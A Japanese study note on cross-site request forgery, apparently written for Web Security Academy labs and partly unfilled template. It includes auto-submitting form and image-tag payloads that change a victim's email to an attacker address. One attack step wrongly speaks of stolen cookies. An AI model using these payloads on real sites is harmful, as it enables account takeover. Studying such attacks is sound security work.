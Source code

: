 # 脆弱性名: [Cross site Request Forgery (CSRF)]  

## 1️ 概要 / 定義
- クロスサイトリクエストフォージュリーは、攻撃者がユーザに意図しない操作を実行させることを可能にするウェブセキュリティの脆弱性。

## 2️ 攻撃の前提条件
- [関連するアクション]
	- 攻撃者がアプリケーション内で何らかのアクションを誘発する必要がある。
		- 特権での操作や自身のパスワード変更等
- [Cookieベースのセッション処理]
	- アクションの実行には1つ以上HTTPリクエスト発行が含まれアプリケーションはリクエストを送信したユーザを識別するために必要。
- [予測不可能なリクエストパラメータがないこと]
	- 攻撃者がすべてのパラメータの値を知っている必要がある。
		- CSRFにならない場合:これはパスワード変更であった場合、現在のパスワードを知らないとリクエストが処理されてないためそもそもCSRFの対象にはならないという話。
		- CSRFになる場合:

## 3️ 影響
- Webアプリでそのアカウントで許可されている操作はできてしまう。

## 4️ 何ができるか（攻撃成功時の具体例）
- 取得したユーザの権限によって変わる。

## 5️ 攻撃フロー（手順化）
1. [ステップ1：攻撃者がWebページを作成する。]
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
1. [ステップ2：ユーザに1で作成したページを踏ませる。]
2. [ステップ3：1で仕込んだメールアドレスに変更できていればOK]
3. [ステップ4 : 盗んだクッキーを使用してログインする。]
- **目的は「どうすれば成功するか」を他人に説明できるように書くこと**

## 6️ 検出方法（診断手法）
- 手動：
  - [具体的にどのツールを使い、どう検証するか]
- 自動：
  - [使用可能なツール名]
  - [どういう設定や条件で検出できるか]

## 7️ 判定基準
- [何をもって脆弱と判定するか]
- [ガイドライン（OWASP、CWEなど）や一般的な基準に照らして明文化]
- 例：認証なしで閲覧可能 / 特定操作が実行可能 / トークンがない 等

## 8️ 防御策 / 緩和策
- 技術的対策：
  - [具体的な防御手段]
- 設計・運用上の対策：
  - [誤った設計を避けるためのガイドラインや注意点]

## 9 Payload
```
▼Getの場合
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

▼Postの場合
<form method="POST" action="https://0a47002104cc99ee801e039900c40056.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="csrf2@web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

---
## 【補足】理解すべき背景
- なぜこの脆弱性が成立するのか：
  - [仕様上、設計上、実装上、どの要素が原因か]
- よくある失敗事例：
  - [実際に企業や現場でありがちなミス]
- 関連する脆弱性・攻撃手法：
  - [他の脆弱性との関連性]